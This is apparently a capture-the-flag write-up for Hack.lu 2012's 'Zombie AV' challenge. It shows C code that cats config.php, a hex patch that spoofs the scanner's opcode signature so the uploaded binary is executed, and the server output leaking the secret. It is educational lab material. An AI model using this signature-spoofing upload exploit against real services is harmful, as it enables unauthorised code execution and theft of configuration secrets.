 ```yaml
---
title: "Hack.lu CTF 2012 - Zombie AV"
tags:
  - hackyou2012
  - writeup
  - web
---
```


Some people try to fight the zombie apocalypse by selling pseudo antidote. We
need the secret formula in config.php to destroy their snake oil business...

Source: http://dl.ctftime.org/38/119/zombieav.zip

Page: https://ctf.fluxfingers.net:2070

Basically we just want to read the config.php file for the $secret.

From the sample config.php in the zip file:

```php
<?php

$readelfpath='/usr/bin/readelf';
$objdumppath='/usr/bin/objdump';
$uploadpath='upload/';
$scriptpath='/var/www/';
$secret='______________________';

?>
```

Uploading any random binary shows us this:

```
analysing file 3fe6e0634a9977050ac1f9d67e4edc59
8048330: 31 ed xor %ebp,%ebp
8048332: 5e pop %esi
8048333: 89 e1 mov %esp,%ecx
8048335: 83 e4 f0 and $0xfffffff0,%esp
8048338: 50 push %eax
8048339: 54 push %esp
804833a: 52 push %edx
804833b: 68 b0 84 04 08 push $0x80484b0
8048340: 68 50 84 04 08 push $0x8048450
8048345: 51 push %ecx
8048346: 56 push %esi
8048347: 68 04 84 04 08 push $0x8048404
804834c: e8 bf ff ff ff call 8048310 <__libc_start_main@plt>
8048351: f4 hlt
8048352: 90 nop
8048353: 90 nop
8048354: 55 push %ebp
80483
Entry Opcodes are: 31 ed 5e 89 e1 83 e4 f0 50 54 52 68
Signature is: d87ae7dd8b166d8e2c02676d69561c96
no zombie virus found
```

No luck, its not the binary they're looking for. Taking a look at scan.php which
does the scanning, we see:

```php
$opcodes=getOpcodes($rest);
print "Entry Opcodes are: ".$opcodes;
print "n";
print "Signature is: " . md5($opcodes);
print "n";
```

So we see that getOpcodes() extracts exactly "31 ed 5e 89 e1 83 e4 f0 50 54 52
68" this much of hex from the binary. And scan.php does the matching by
`md5($opcodes) === 'cd53b957ec552afb39cba6daed7a9abc'`. All we need to do is get
scan.php to read the correct $opcodes that generates the desired md5sum.

There is a huge hint in the php file that tells us what opcodes generates the
desired md5sum.

```
/*
* hint: zombie virus signature is
* 8048340: b0 01 mov $0x1,%al
* 8048342: 90 nop
* 8048343: 90 nop
* 8048344: 90 nop
* 8048345: 90 nop
* 8048346: 90 nop
* 8048347: 90 nop
* 8048348: 90 nop
* 8048349: 90 nop
* 804834a: cd 80 int $0x80
*/
```

After passing the md5sum comparison check, scan.php executes the uploaded binary
and displays the output as shown in the source below. We can make use of this.

```php
if (md5($opcodes) === 'cd53b957ec552afb39cba6daed7a9abc') {
    print "found zombie virus, trying to execute itn";
    chmod($filename,755);

    $handle = popen($filename.' 2>&1', 'r');

    while (!feof($handle)) {
        $read .= fread($handle, 8192);
    }

    pclose($handle);

    print $read;
    @unlink($filename);
    print "done we are safen";
} else {
    print "no zombie virus found";
}

}
```

So we just need the uploaded binary to cat or read config.php and scan.php will
automagically display the contents.

The following C code does just that.

```c
#include <stdio.h>
#include <stdlib.h>

int main( int argc, char *argv[]){
    char *path[] = {"/bin/cat", "config.php", NULL};
    execve("/bin/cat", path, NULL);

}
```

Compile it.

```shell
gcc -m32 -o prepay.elf test.c
```

After compiling, we just need to patch the binary, changing "31 ed 5e 89 e1 83
e4 f0 50 54 52 68" to "b0 01 90 90 90 90 90 90 90 90 cd 80". Fire up your hex
editor, search for hex "31 ed" blah, change it to "b0 01" blah. Save and upload
to Zombie AV.

```shell
analysing file 513160765dcc3d61a6cadd9c487ca00e
8048330: b0 01 mov $0x1,%al
8048332: 90 nop
8048333: 90 nop
8048334: 90 nop
8048335: 90 nop
8048336: 90 nop
8048337: 90 nop
8048338: 90 nop
8048339: 90 nop
804833a: cd 80 int $0x80
804833c: b0 84 mov $0x84,%al
804833e: 04 08 add $0x8,%al
8048340: 68 50 84 04 08 push $0x8048450
8048345: 51 push %ecx
8048346: 56 push %esi
8048347: 68 04 84 04 08 push $0x8048404
804834c: e8 bf ff ff ff call 8048310 <__libc_start_main@plt>
8048351: f4 hlt
8048352: 90
Entry Opcodes are: b0 01 90 90 90 90 90 90 90 90 cd 80
Signature is: cd53b957ec552afb39cba6daed7a9abc
found zombie virus, trying to execute it
<?php

$readelfpath='/usr/bin/readelf';
$objdumppath='/usr/bin/objdump';
$uploadpath='upload/';
$scriptpath='/var/www/';
$secret='55c4080daefb5f794c3527101882b50b';

?>
done we are safe
```
Automagically `$secret='55c4080daefb5f794c3527101882b50b';`

Flag: **55c4080daefb5f794c3527101882b50b**.
